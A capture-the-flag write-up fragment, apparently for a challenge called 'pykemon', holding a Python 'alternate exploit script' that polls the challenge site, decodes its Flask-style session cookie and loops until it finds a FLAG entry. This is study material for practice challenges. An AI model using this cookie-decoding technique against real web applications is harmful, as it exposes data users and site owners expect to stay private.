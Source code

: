 Alternate exploit script

```python3
import requests
import base64
import zlib
import json

class D:
    pass

d = D()

d.s = requests.session()
d.url = "http://pykemon.chal.pwning.xxx/"

def get_cookie_object():
    for c in d.s.cookies:
        if c.name == "session":
            return c

def get_room():
    global d
    return d.s.get(d.url)

def decode_session():
    global d
    cookie = get_cookie_object()
    if cookie == None:
        return None
    cookie = cookie.value
    return json.loads(zlib.decompress(base64.urlsafe_b64decode(cookie.split(".")[1] + "===")))
    
def get_pykemon():
    data = decode_session()
    if data == None:
        return None
    return data["room"]["pykemon"]

def get_pykemon_el(pykemon, el):
    return base64.urlsafe_b64decode(pykemon[el][" b"]).decode("utf-8")

def find_flag():
    p = get_pykemon()
    if p == None:
        return None
    for mon in p:
        if get_pykemon_el(mon, "name") == "FLAG":
            return get_pykemon_el(mon, "description")
    return None

def run():
    i = 0
    while True:
        i += 1
        print("[INFO] attempt #{}".format(i))
        r = get_room()
        flag = find_flag()
        if flag != None:
            break
    print("[ OK ] flag is {}".format(flag))

run()
```
